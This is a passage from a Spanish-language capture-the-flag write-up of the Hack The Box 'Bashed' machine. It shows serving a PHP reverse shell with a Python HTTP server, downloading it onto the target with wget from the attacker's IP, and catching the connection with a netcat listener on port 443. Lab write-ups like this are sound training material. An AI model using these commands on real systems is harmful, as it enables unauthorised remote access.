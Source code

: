 * Levantamos un servidor en python en donde tenemos la **Reverse Shell**:
```bash
python3 -m http.server   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Ahora en la página web, descargamos la **Reverse Shell**:
```bash
wget Tu_IP:8000/php-reverse-shell.php
```

<p align="center">
<img src="/assets/images/htb-writeup-bashed/Captura8.png">
</p>

* Bien, alzamos una netcat:
```bash
nc -nvlp 443                                                    
listening on [any] 443 ...
```

* Cargamos la página:

![](/assets/images/htb-writeup-bashed/Captura9.png)

Y ya deberíamos estar conectados.

<br>
